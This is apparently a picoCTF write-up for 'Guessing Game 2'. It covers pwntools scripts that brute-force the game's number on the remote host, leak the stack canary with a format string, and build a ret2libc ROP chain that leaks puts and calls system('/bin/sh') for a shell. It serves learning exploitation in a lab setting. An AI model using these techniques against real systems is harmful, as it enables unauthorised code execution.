








# Guessing Game 2 

The target binary `vuln` is a **32-bit (i386) binary** with the following protections:

* **Stack Canary:** Enabled → Prevents simple buffer overflow overwrites of the return address.
* **NX (Non-Executable Stack):** Enabled → Prevents direct shellcode execution on the stack.
* **PIE (Position Independent Executable):** Disabled → Base address is fixed (0x8048000).
* **RELRO:** Full RELRO → GOT entries are read-only, preventing easy GOT overwrites.

The binary implements a **number guessing game** but contains multiple vulnerabilities:

1. **Format String Vulnerability:** Allows leaking stack values, including the **stack canary**.
2. **Buffer Overflow Vulnerability:** Allows overwriting the return address to construct a **ROP chain**.

The exploit demonstrates **format string and buffer overflow vulnerabilities** to leak the canary and libc addresses, then execute `system("/bin/sh")` to spawn a shell.

---

i will cover this in two parts one for the local and other for the remote


# Local Exploit

## Exploit Strategy

The exploitation is done in **three main stages**:


1. **Guessing the no** – necessary to call win().
   
There are 2 ways we can find the number:

- brute forcing:
  
we can brute force the no by using this script which i will use in the remote section i will use the old school way
```python
#!/usr/bin/python3
from pwn import *
import sys

if len(sys.argv) != 2:
    warn(f"Usage: {sys.argv[0]} remote|local")
    exit(0)

mode = sys.argv[1]

# -------------------------
# Remote / local setup
# -------------------------
REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 58314

elf = ELF('./vuln')

class Guesser:
    def __init__(self, proc):        
        self.found = None
        self.proc = proc
        
    def start(self):
        self.proc.recvlines(3)  # skip intro
        for guess in range(-4097, 4097):
            self.proc.recvline()  # skip prompt
            info(f"Guessing {guess}...")
            self.proc.sendline(str(guess).encode())
            resp = self.proc.recvline(timeout=1)
            if resp:
                resp_text = resp.decode(errors="ignore").strip()
                self.proc.recvline()  # skip following line
                if "Congrats" in resp_text:
                    self.found = guess
                    break            
        return self.found

# -------------------------
# Open connection
# -------------------------
if mode.lower() == "remote":
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = elf.process()

# -------------------------
# Start guessing
# -------------------------
guesser = Guesser(p)
magic_number = guesser.start()
if magic_number is None:
    log.failure("Magic number not found")
else:
    log.success(f"Magic number found: {magic_number}")

# Optional: keep interactive to see the server
p.interactive()

```

- manual approach

we will just seee the value in r2 simple as that 


we know that the value is generated with the help of 

```c
long get_random() {
	return rand;
}
```


and finally with 


```c
long ans = (get_random() % 4096) + 1;
```

we get the ans





this is the variable(ans) that stores the value 


we just have to examin it to see tghe values within local variables in r2




in decimal it is equal to `-351`





---


2. **Leaking the Stack Canary** – necessary to bypass stack protection.

Once inside, we send a **format string** payload to leak the stack canary:

to find the offfset i have createad an silly script 😊

what does it do it takes the stack dump from the r2 and give the stack canary 


```python

# this script just takes in an stack dump and make an pridiction which is the canary 
# note that donot relay on this script, it is just a make pridiction which value is ends at 0x00
# you should always verify the canary by other means


import re

# Paste your stack dump here:
pxw_dump = """
0xffa5af40  0xffa5af5c 0x00000200 0xf7f3f5c0 0x0804877d  \...........}...
0xffa5af50  0x00000001 0xfffffea1 0xfffffea1 0x42414141  ............AAAB
0xffa5af60  0x41434141 0x41414441 0x46414145 0x41474141  AACAADAAEAAFAAGA
0xffa5af70  0x41414841 0x4a414149 0x414b4141 0x41414c41  AHAAIAAJAAKAALAA
0xffa5af80  0x4e41414d 0x414f4141 0x41415041 0x52414151  MAANAAOAAPAAQAAR
0xffa5af90  0x41534141 0x41415441 0x56414155 0x41574141  AASAATAAUAAVAAWA
0xffa5afa0  0x41415841 0x5a414159 0x41614141 0x41416241  AXAAYAAZAAaAAbAA
0xffa5afb0  0x64414163 0x41654141 0x41416641 0x68414167  cAAdAAeAAfAAgAAh
0xffa5afc0  0x41694141 0x41416a41 0x6c41416b 0x416d4141  AAiAAjAAkAAlAAmA
0xffa5afd0  0x41416e41 0x7041416f 0x41714141 0x41417241  AnAAoAApAAqAArAA
0xffa5afe0  0x74414173 0x41754141 0x41417641 0x78414177  sAAtAAuAAvAAwAAx
0xffa5aff0  0x41794141 0x41417a41 0x32414131 0x41334141  AAyAAzAA1AA2AA3A
0xffa5b000  0x41413441 0x36414135 0x41374141 0x41413841  A4AA5AA6AA7AA8AA
0xffa5b010  0x30414139 0x41424241 0x42414342 0x45424144  9AA0ABBABCABDABE
0xffa5b020  0x41464241 0x42414742 0x49424148 0x414a4241  ABFABGABHABIABJA
0xffa5b030  0x42414b42 0x4d42414c 0x414e4241 0x42414f42  BKABLABMABNABOAB
0xffa5b040  0x51424150 0x41524241 0x42415342 0x55424154  PABQABRABSABTABU
0xffa5b050  0x41564241 0x42415742 0x59424158 0x415a4241  ABVABWABXABYABZA
0xffa5b060  0x42416142 0x63424162 0x41644241 0x42416542  BaABbABcABdABeAB
0xffa5b070  0x67424166 0x41684241 0x42416942 0x6b42416a  fABgABhABiABjABk
0xffa5b080  0x416c4241 0x42416d42 0x6f42416e 0x41704241  ABlABmABnABoABpA
0xffa5b090  0x42417142 0x73424172 0x41744241 0x42417542  BqABrABsABtABuAB
0xffa5b0a0  0x77424176 0x41784241 0x42417942 0x3142417a  vABwABxAByABzAB1
0xffa5b0b0  0x41324241 0x42413342 0x35424134 0x41364241  AB2AB3AB4AB5AB6A
0xffa5b0c0  0x42413742 0x39424138 0x41304241 0x43414243  B7AB8AB9AB0ACBAC
0xffa5b0d0  0x44434143 0x41454341 0x43414643 0x48434147  CACDACEACFACGACH
0xffa5b0e0  0x41494341 0x43414a43 0x4c43414b 0x414d4341  ACIACJACKACLACMA
0xffa5b0f0  0x43414e43 0x5043414f 0x41514341 0x43415243  CNACOACPACQACRAC
0xffa5b100  0x54434153 0x41554341 0x43415643 0x58434157  SACTACUACVACWACX
0xffa5b110  0x41594341 0x43415a43 0x62434161 0x41634341  ACYACZACaACbACcA
0xffa5b120  0x43416443 0x66434165 0x41674341 0x43416843  CdACeACfACgAChAC
0xffa5b130  0x6a434169 0x416b4341 0x43416c43 0x6e43416d  iACjACkAClACmACn
0xffa5b140  0x416f4341 0x43417043 0x72434171 0x41734341  ACoACpACqACrACsA
0xffa5b150  0x43417443 0x76434175 0xf7004341 0xb3075100  CtACuACvAC...Q..
0xffa5b160  0x080489fc 0x08049fbc 0xffa5b188 0x0804888c  ................
0xffa5b170  0x00000000 0x00000000 0x000003e8 0x00000001  ................
0xffa5b180  0xffa5b1a0 0xf7f3ee14 0x00000000 0xf7d30cc3  ................
0xffa5b190  0x00000000 0xffa5b254 0xf7d4a029 0xf7d30cc3  ....T...).......
0xffa5b1a0  0x00000001 0xffa5b254 0xffa5b25c 0xffa5b1c0  ....T...\.......
0xffa5b1b0  0xf7f3ee14 0x080487ff 0x00000001 0xffa5b254  ............T...
0xffa5b1c0  0xf7f3ee14 0x080488a0 0xf7f9fb60 0x00000000  ........`.......
0xffa5b1d0  0xccf3e6cd 0x2189a0dd 0x00000000 0x00000000  .......!........
0xffa5b1e0  0x00000000 0xf7f9fb60 0x00000000 0xb3075100  ....`........Q..
0xffa5b1f0  0xf7fa0a60 0xf7d30c56 0xf7f3ee14 0xf7d30d88  `...V...........
0xffa5b200  0xf7f6aac4 0x00000008 0x00000000 0x00000000  ................
0xffa5b210  0x00000000 0x00000000 0xf7d30d09 0x08049fbc  ................
0xffa5b220  0x00000001 0x08048520 0x00000000 0x08048552  .... .......R...
0xffa5b230  0x080487ff 0x00000001 0xffa5b254 0x080488a0  ........T.......
0xffa5b240  0x08048900 0xf7f6ecc0 0xffa5b24c 0xf7fa0a60  ........L...`...
0xffa5b250  0x00000001 0xffa5bc5d 0x00000000 0xffa5bc6d  ....].......m...
0xffa5b260  0xffa5bc7d 0xffa5bc95 0xffa5bcb0 0xffa5bcc5  }...............
0xffa5b270  0xffa5bcde 0xffa5bcef 0xffa5bd04 0xffa5bd13  ................
0xffa5b280  0xffa5bd20 0xffa5bd3b 0xffa5bd5d 0xffa5bd6d   ...;...]...m...
0xffa5b290  0xffa5bd7e 0xffa5bd9f 0xffa5c526 0xffa5c540  ~.......&...@...
0xffa5b2a0  0xffa5c554 0xffa5c56c 0xffa5c581 0xffa5c599  T...l...........
0xffa5b2b0  0xffa5c5a3 0xffa5c5ae 0xffa5c5c3 0xffa5c5cb  ................
0xffa5b2c0  0xffa5c5e3 0xffa5c603 0xffa5c639 0xffa5c641  ........9...A...
0xffa5b2d0  0xffa5c65f 0xffa5cf6c 0xffa5cfa2 0xffa5cfb2  _...l...........
0xffa5b2e0  0xffa5cfda 0x00000000 0x00000020 0xf7f68560  ........ ...`...
0xffa5b2f0  0x00000021 0xf7f68000 0x00000033 0x000006f0  !.......3.......
0xffa5b300  0x00000010 0x1f8bfbff 0x00000006 0x00001000  ................
0xffa5b310  0x00000011 0x00000064 0x00000003 0x08048034  ....d.......4...
0xffa5b320  0x00000004 0x00000020                        .... ...
"""

def detect_arch(values):
    # Detect if values are 32-bit or 64-bit based on value size
    return 64 if any(v > 0xFFFFFFFF for v in values) else 32

def is_probably_canary(val, arch):
    if val == 0x0:
        return False
    if val & 0xff != 0x00:  # must end in 0x00
        return False
    if arch == 32:
        if (val >> 24) in (0xf7, 0xff):  # libc or stack
            return False
    else:  # 64-bit
        if (val >> 56) in (0xf7, 0xff):  # high bits libc/stack
            return False
    return True

def extract_values(dump):
    values = []
    for line in dump.strip().splitlines():
        parts = re.findall(r'0x[0-9a-fA-F]+', line)
        for val in parts[1:]:  # skip address
            try:
                values.append(int(val, 16))
            except ValueError:
                pass
    return values

values = extract_values(pxw_dump)
arch = detect_arch(values)

print("🛡️  Probable stack canaries:\n")

found = False
for i, val in enumerate(values):
    if is_probably_canary(val, arch):
        print(f"🟩  Value: 0x{val:0{16 if arch == 64 else 8}x}  — Offset: %{i + 1}$p")
        found = True

if not found:
    print("❌ No likely canaries found.")

print("\nℹ️ Use %%{{offset}}$p in a format string to leak.")

```




😒 well ofcorce there are many ways but seeing this makes you wonder there are unlimited possibilities

donot worry other bruteforcing method will be implimented in the remote secrtion 

i lied there are no unlimited possibilities as the canary was in `171` offset you will need to double cheak


```python
p.sendline(b"%171$p")  # Print the 171st value on stack (canary)
p.recvuntil("Congrats: ")
canary = int(p.recvline().decode().strip(), 16)
print("Canary:", hex(canary))
```

**Result:** We obtain the stack canary value, which is needed to safely overflow the buffer without crashing the program.

---


3. **Leaking `puts()` Address** – allows calculation of the libc base to compute `system()` and `/bin/sh` addresses.


We need the **libc base address** to call `system()` and pass `/bin/sh`. We do this by leaking the address of `puts` in the **GOT**:

```python
puts_plt  = elf.plt['puts']
main_addr = elf.symbols['main']
puts_got  = elf.got['puts']

p.recvuntil("What number would you like to guess?")
p.sendline(magic_number)   # trigger win() again

# build payload: buffer(512) + canary + padding(12) + puts@plt + main + puts@got
payload = flat(
    b"A" * 512,
    p32(canary),       # include canary
    b"B" * 12,         # padding (12)
    puts_plt,          # ret -> puts@plt
    main_addr,         # return to main
    puts_got           # argument to puts
)

p.recvuntil(b"Name? ")
p.sendline(payload)

# skip winner line
p.recvuntil(b"Congrats: ")
junk = p.recvline()

# read the actual leaked bytes
leak_data = p.recvn(5)
addr_bytes = leak_data[-4:]

# print nicely
print("Leak:", ''.join(f'\\x{b:02x}' for b in addr_bytes))

puts_leak = u32(addr_bytes)
print("Leaked puts address:", hex(puts_leak))
```

**Result:** The actual address of `puts()` in memory, which we can use to calculate the libc base.

---


4. **Compute `system()` and `/bin/sh` Addresses**

this is the easiest part for local pwn challange but my god i hate doing this in remote challanges we will come to remote challange later

Using the local libc ELF:

```python
binsh_offset = next(libc.search(b'/bin/sh'))
libc_base    = puts_leak - libc.symbols['puts']

system_addr  = libc_base + libc.symbols['system']
print("system() address:", hex(system_addr))

binsh_addr   = libc_base + binsh_offset
print("'/bin/sh' address:", hex(binsh_addr))
```

* `libc_base` is the start of libc in memory.
* `system_addr` is computed relative to `libc_base`.
* `binsh_addr` points to the string `"/bin/sh"` in libc.

---


5. **Constructing the Final ROP Chain** – to execute `system("/bin/sh")` and spawn a shell.

Construct the **final ROP chain**:

```python
p.recvuntil(b"What number would you like to guess?")
p.sendline(magic_number)   # trigger win() again

payload = (
    b"A"*512 +
    p32(canary) +
    b"A"*12 +
    p32(system_addr) +
    p32(elf.functions['win'].address) +
    p32(binsh_addr)
)

```

**Explanation:**

* Overflow buffer: 512 bytes
* Canary: bypass stack protection
* Padding: 12 bytes
* `system_addr`: executes system("/bin/sh")
* Return address: can point to `win()` or anywhere safe
* `binsh_addr`: argument to `system()`

Send the payload:

```python
p.sendline(payload)
p.interactive()
```


**Result:** Spawns a **local shell** with the privileges of the binary.

---





## Summary

1. Used a **format string** to leak the stack canary.
2. Used a **ROP chain** to leak `puts()` from the GOT.
3. Calculated **libc base** and derived addresses for `system()` and `/bin/sh`.
4. Constructed the final **ROP chain** to execute `system("/bin/sh")`.
5. Successfully spawned an interactive shell locally.

---

now lets use this approach to solve this remotely and boy i was wrong 🥲


# Remote Exploit


we will follow the same steps 


1. **Guessing the no** – necessary to call win().

here we will use the script as we canot use debuggers on remote binary


```python
#!/usr/bin/python3
from pwn import *
import sys

if len(sys.argv) != 2:
    warn(f"Usage: {sys.argv[0]} remote|local")
    exit(0)

mode = sys.argv[1]

# -------------------------
# Remote / local setup
# -------------------------
REMOTE_HOST = 'shape-facility.picoctf.net'
REMOTE_PORT = 58314

elf = ELF('./vuln')

class Guesser:
    def __init__(self, proc):        
        self.found = None
        self.proc = proc
        
    def start(self):
        self.proc.recvlines(3)  # skip intro
        for guess in range(-4097, 4097):
            self.proc.recvline()  # skip prompt
            info(f"Guessing {guess}...")
            self.proc.sendline(str(guess).encode())
            resp = self.proc.recvline(timeout=1)
            if resp:
                resp_text = resp.decode(errors="ignore").strip()
                self.proc.recvline()  # skip following line
                if "Congrats" in resp_text:
                    self.found = guess
                    break            
        return self.found

# -------------------------
# Open connection
# -------------------------
if mode.lower() == "remote":
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = elf.process()

# -------------------------
# Start guessing
# -------------------------
guesser = Guesser(p)
magic_number = guesser.start()
if magic_number is None:
    log.failure("Magic number not found")
else:
    log.success(f"Magic number found: {magic_number}")

# Optional: keep interactive to see the server
p.interactive()

```


to be honest i have to see resources for this at the same time it helped me and also confuses me they uses threads and other thing man the binary is in loop you donot have to open a new connection for each entry they thought it was fasting things up well the server could not catch up with the speed and eventually crashes thats why i kept it simple 


you may be wondering whats with 

```python
for guess in range(-4097, 4097):
```


The range `-4096` to `4096` comes directly from how the binary **generates or expects the magic number**:

* From the snippet `long ans = (get_random() % 4096) + 1;`, the random number generated is between **1 and 4096**.
* Some earlier checks in the binary may **allow negative values** (like `if (guess == -3727)`), so brute-forcing starts at `-4096` to cover any negative “magic number” the binary might accept.
* Essentially, `-4096 → 4096` covers **all plausible numbers** that could trigger `win()` without missing the correct one.

It’s a **safe over-approximation** to ensure the brute-force works.





`-3727` is the magic no

> it may take a little while so be patient

---

2. **Leaking the Stack Canary** – necessary to bypass stack protection.


i have used this script to find out the stack canary as we canot use debugger approch here


```python
from pwn import *

p = remote('shape-facility.picoctf.net', 64740)

magic_number = b"-3727"
p.recvuntil(b"What number would you like to guess?\n")
p.sendline(magic_number)

# Send a payload: format string + padding + marker
payload = b"%135$p" + b"A"*500 + b"END"
p.sendline(payload)

# Read response until marker "Congrats: "
result = p.recvuntil(b"Congrats: ")
print(result.decode())

p.interactive()
```

you have to addjust the offset if it sayes `4141414141` than just move forward if some otjher value comes than confirm if it is an stack canary. `stack canary` usually ends with `0x00`
so it will be easy to spot them. for me the stack canary was at `135` offset 




---


3. **Leaking `puts()` Address** – allows calculation of the libc base to compute `system()` and `/bin/sh` addresses.


We need the **libc base address** to call `system()` and pass `/bin/sh`. We do this by leaking the address of `puts` in the **GOT**:

```python
p.recvuntil(b"What number would you like to guess?\n")
p.sendline(magic_number)   # trigger win() again


payload = flat(
    b"A" * 512,
    p32(canary),
    b"B" * 12,
    puts_plt,
    main_addr,
    puts_got
)


p.sendlineafter("Name? ", payload)
out = p.recvline()
out = p.recvline()
out = p.recvline()
puts = out.replace(b'\n',b'')
puts = int.from_bytes(puts,'little')
puts = puts & 0xFFFFFFFF
print(f'[+] Leaked puts address: { hex(puts) }')
```

**Result:** The actual address of `puts()` in memory, which we can use to calculate the libc base.





we have leaked the `puts_plt` it lives in the 0xe0000000–0xf0000000 range, which is where the kernel maps shared libraries in 32-bit.

---

4. **Compute `system()` and `/bin/sh` Addresses**

As i have told you that this is the easies part but unfortunatelly 

Using the local libc ELF:

```python
binsh_offset = next(libc.search(b'/bin/sh'))
libc_base    = puts_leak - libc.symbols['puts']

system_addr  = libc_base + libc.symbols['system']
print("system() address:", hex(system_addr))

binsh_addr   = libc_base + binsh_offset
print("'/bin/sh' address:", hex(binsh_addr))
```

* `libc_base` is the start of libc in memory.
* `system_addr` is computed relative to `libc_base`.
* `binsh_addr` points to the string `"/bin/sh"` in libc.

---
